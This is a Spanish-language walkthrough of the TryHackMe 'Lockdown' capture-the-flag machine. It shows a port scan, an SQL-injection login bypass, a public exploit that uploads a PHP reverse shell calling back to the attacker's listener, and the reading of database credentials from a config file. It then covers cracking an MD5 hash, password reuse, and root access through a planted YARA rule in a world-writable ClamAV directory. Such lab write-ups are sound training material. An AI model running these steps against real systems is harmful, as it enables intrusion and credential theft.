

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/lockdown)  | Medio  |  [hangrymoose](https://tryhackme.com/p/hangrymoose)  |

## Reconocimiento

¡Ey! ¡Bienvenido de nuevo!

Una vez más, estamos ejecutando `nmap` contra esta máquina, ¡para ver qué servicios se están ejecutando!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.51.197 -p- -sS --min-rate 5000 -n -Pn                                                         ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 10:02 CEST
Nmap scan report for 10.10.51.197
Host is up (0.072s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Máquina simple por ahora, 2 puertos abiertos `22` ejecutando `ssh` y el `80` ejecutando una `web`.

¡Vamos a la web!

Si intenta ir directamente a la IP de la máquina, probablemente verá esto:


Porque tenemos que agregar la siguiente línea a nuestro archivo `/etc/hosts`:

`{MACHINE_IP} contacttracer.thm`

_Edita `{MACHINE_IP}` con la IP de la máquina._

Después de eso, podemos ir a la página.


Podemos ver una página normal, un `Contact Tracer` para el Coronavirus, muy útil en esta situación de pandemia...

¡Tenemos un inicio de sesión de administradores! Tal vez podamos explotar un `SQLi` como este ...


¡Y lo logramos!

Podemos ver una panel de administración, lo interesante esta en la parte inferior derecha:



Tenemos la versión de esta plataforma, ¡y ahora podemos buscar un exploit público!

Eso lo encontramos [aquí](https://www.exploit-db.com/exploits/49604). También modifiqué un poco este exploit para tener una mejor shell, puedes encontrarlo [aquí](exp.py)

¡Así que ejecutemos el exploit!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ python3 exp.py contacttracer.thm 10.9.2.74 1337                                                                ─╯
(+) Uploading php reverse shell..
(+) File upload seems to have been successful!
(+) Now trying to trigger our shell..

(+) done!


-----------

[Terminal 2]


╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.51.197] 55832
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:17:55 up 43 min,  0 users,  load average: 0.00, 0.00, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (993): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
¡Estamos dentro!

## Acceso inicial - Usuario

Estamos dentro, pero no podemos leer la bandera del usuario.

Así que buscando archivos interesantes, ¡encontré las credenciales de una conexión mysql!

¡Podemos usarlos para iniciar sesión en el servidor `mysql`!
```bash
www-data@lockdown:/tmp$ cat /var/www/html/classes/DBConnection.php 
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'Y[REDACTADO]E';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
}
www-data@lockdown:/tmp$ mysql -u cts -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 461
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cts_db             |
+--------------------+
2 rows in set (0.00 sec)

mysql> use cts_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_cts_db |
+------------------+
| barangay_list    |
| city_list        |
| establishment    |
| people           |
| state_list       |
| system_info      |
| tracks           |
| users            |
+------------------+
8 rows in set (0.00 sec)

mysql> select * from users;
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
| id | firstname    | lastname | username | password     | avatar                        | last_login | date_added          | date_updated        |
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 3[REDACTADO]d | uploads/1614302940_avatar.jpg | NULL       | 2021-01-20 14:02:37 | 2021-02-26 10:23:23 |
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> 
```
¡Y ahora tenemos una contraseña hasheada!

¡Tenemos muchas formas de "dehashearla"!

Voy a usar `STH (Search That Hash)`. Pero puedes usar `crackstation` o incluso `john`.

```bash

╰─ lanfran@parrot ❯ sth --text "3[REDACTADO]d"                                                                  ─╯

  _____                     _        _______ _           _          _    _           _
 / ____|                   | |      |__   __| |         | |        | |  | |         | |
| (___   ___  __ _ _ __ ___| |__ ______| |  | |__   __ _| |_ ______| |__| | __ _ ___| |__
 \___ \ / _ \/ _` | '__/ __| '_ \______| |  | '_ \ / _` | __|______|  __  |/ _` / __| '_ \
 ____) |  __/ (_| | | | (__| | | |     | |  | | | | (_| | |_       | |  | | (_| \__ \ | | |
|_____/ \___|\__,_|_|  \___|_| |_|     |_|  |_| |_|\__,_|\__|      |_|  |_|\__,_|___/_| |_|
        
https://twitter.com/bee_sec_san
https://github.com/HashPals/Search-That-Hash
https://twitter.com/Jayy_2004


3[REDACTADO]d

Text : s[REDACTADO]m
Type : MD5
```

¡Ahora tenemos la contraseña en texto plano!

Veamos si algún usuario reutilizó esta contraseña ...

```bash
www-data@lockdown:/home$ su cyrus
Password: 
cyrus@lockdown:/home$ cat /home/cyrus/user.txt 
THM{[REDACTADO]}
```
Afortunadamente para nosotros, el usuario `cyrus` reutilizó la contraseña y ahora tenemos la flag del usuario.


## Raíz

Para obtener la flag de root, tenemos que seguir un camino interesante...

Primero, podemos ejecutar un script con `sudo`.
```bash
cyrus@lockdown:/home$ sudo -l
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
cyrus@lockdown:/home$
```
Al leer este script, se activará un escaneo en la ruta que le demos...

```bash
cyrus@lockdown:/home$ cat /opt/scan/scan.sh
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
cyrus@lockdown:/home$
```
Buscando en la máquina, podemos ver que para buscar "virus" en un archivo, la secuencia de comandos verificará una base de datos.

``` bash
cyrus@lockdown:/home$ cat /etc/clamav/freshclam.conf 
# Automatically created by the clamav-freshclam postinst
# Comments will get lost when you reconfigure the clamav-freshclam package

DatabaseOwner clamav
UpdateLogFile /var/log/clamav/freshclam.log
LogVerbose false
LogSyslog false
LogFacility LOG_LOCAL6
LogFileMaxSize 0
LogRotate true
LogTime true
Foreground false
Debug false
MaxAttempts 5
DatabaseDirectory /var/lib/clamav                   <----- Aquí
DNSDatabaseInfo current.cvd.clamav.net
ConnectTimeout 30
ReceiveTimeout 30
TestDatabases yes
ScriptedUpdates yes
CompressLocalDatabase no
SafeBrowsing false
Bytecode true
NotifyClamd /etc/clamav/clamd.conf
# Check for new database 24 times a day
Checks 24
DatabaseMirror db.local.clamav.net
DatabaseMirror database.clamav.net
cyrus@lockdown:/home$
```
Y aquí tenemos las Bases de Datos...

```bash
cyrus@lockdown:/home$ ls -la /var/lib/clamav
total 20
drwxrwxrwx  2 clamav clamav 4096 Oct 23 11:00 .
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11 04:26 mirrors.dat
cyrus@lockdown:/home$
```
Entonces, para verificar si hay virus está usando las `reglas de YARA` ... Puede leer más sobre esto en este [enlace](https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/).

Pero básicamente podemos crear nuestra propia regla `YARA` para leer la bandera de la raíz, así:

```bash
cyrus@lockdown:/tmp$ cat rule.yar
rule PWNED
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $b or $a
}
```
Esta regla buscará cualquier archivo con THM o raíz de "strings".

Ahora copiemos esta regla en la carpeta donde el script busca las bases de datos y las reglas ...
```bash
cyrus@lockdown:/tmp$ cd /var/lib/clamav
cyrus@lockdown:/var/lib/clamav$ ls -la
total 16
drwxrwxrwx  2 clamav clamav 4096 Oct 23 10:47 .
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11 04:26 mirrors.dat
cyrus@lockdown:/var/lib/clamav$ cp /tmp/rule.yar .
```
Genial, ahora ejecutemos el script con sudo, ¡y usemos la ruta a la flag de root!

```bash
cyrus@lockdown:/var/lib/clamav$ sudo /opt/scan/scan.sh
Enter path: /root/root.txt
/root/root.txt: YARA.CheckFileName.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.018 sec (0 m 0 s)
Start Date: 2021:10:23 11:00:49
End Date:   2021:10:23 11:00:49
```

¡El exploit funcionó como se esperaba! Ahora tenemos un archivo en "cuarentena", ¡y este archivo es la bandera de la raíz! ¡¡¡Así que vamos a leerlo !!!

```bash
cyrus@lockdown:/var/lib/clamav$ cat /home/cyrus/quarantine/root.txt
THM{[REDACTADO]}
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!